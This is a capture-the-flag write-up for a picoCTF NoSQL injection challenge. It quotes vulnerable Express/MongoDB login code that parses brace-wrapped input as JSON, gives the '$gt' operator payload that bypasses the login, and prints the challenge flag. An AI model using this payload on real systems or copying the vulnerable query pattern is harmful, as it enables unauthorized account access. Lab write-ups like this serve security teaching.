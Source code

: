 # No Sql Injection - web exploitation

## Case

Can you try to get access to this website to get the flag?

## Solve:

Viewing the website, we have a login page. Viewing the source code, we can see that it is a Mongo DB web server. WE can see that if a user successfully logs in, a bunch of parameters should be returned in the server response, one of which being a token which should contain the flag:

```python
 token: { type: String, required: false, default: "{{Flag}}" },
 ...
 ...
 ...
if (user) {
          res.json({
            success: true,
            email: user.email,
            token: user.token,
            firstName: user.firstName,
            lastName: user.lastName,
          });
```

The source code also shows how the server handles login data:

```python
app.post("/login", async (req, res) => {
      const { email, password } = req.body;

      try {
        const user = await User.findOne({
          email:
            email.startsWith("{") && email.endsWith("}")
              ? JSON.parse(email)
              : email,
          password:
            password.startsWith("{") && password.endsWith("}")
              ? JSON.parse(password)
              : password,
        });
```

If the email or password is wrapped in `{}`, the server will parse them as JSON. So, we can use the payload:

```JSON
{ "$gt": "0"}
```
>$gt operator stands for greater than. If any password exists with a value greater than "0", the query will succeed and we can log in

Entering this payload in both the username and password field successfully logs me in as a user. 

Checking the server response to the successful log in, a base64 value can be found in the token:

image

Which can be decoded to reveal the flag:

`picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_67b1a3c8}`

